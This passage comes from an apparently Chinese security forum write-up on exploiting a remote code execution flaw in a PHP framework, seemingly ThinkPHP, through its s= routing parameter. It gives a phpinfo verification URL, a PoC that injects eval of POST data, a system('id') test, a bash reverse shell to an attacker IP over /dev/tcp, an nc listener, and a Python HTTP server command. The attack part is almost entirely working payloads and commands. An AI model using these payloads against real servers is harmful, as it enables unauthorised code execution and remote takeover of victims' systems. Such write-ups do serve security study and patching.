 漏洞的关键就是这里了 代码位置就是在这里了

![image-20210516114455185](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9e2aa6f7975952ff996d6aa9ee8a15405b477983.png)

#### 漏洞验证

```php
/index.php?s=/index/index/name/${@phpinfo()}
```

```php
/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```

![image-20210516114716456](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-94a7a83b2fbaeac8706337429d7712138fc753cf.png)

#### Poc

```php
/index.php?s=a/b/c/${@print(e val($_POST[1]))}
```

进行抓包

改成POST的包

![image-20210516115146602](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5edf0edaa71c029c59a62d24fbfba1563e721b83.png)

```php
1=system('id');
```

执行成功

![image-20210516115253775](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7fd0373043fca8c0868918190d56e0756dc72df2.png)

#### 反弹shell

```php
bash -i &gt;&amp; /dev/tcp/192.168.175.130/8888 0&gt;&amp;1
```

![image-20210516211216935](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-de51f284a0f668221a6bc5ab8cc4251e049286ce.png)

![image-20210516211239687](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-91383e150589400378c43b6dc84c290fb2df8c24.png)

nc开启监听

```php
nc -lvvp 8888
```

![image-20210516211322279](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ca3b99206e080496989b3f69b0c39c03ec0f7a97.png)

python开启http服务

```php
python -m SimpleHTTPServer 9999
```

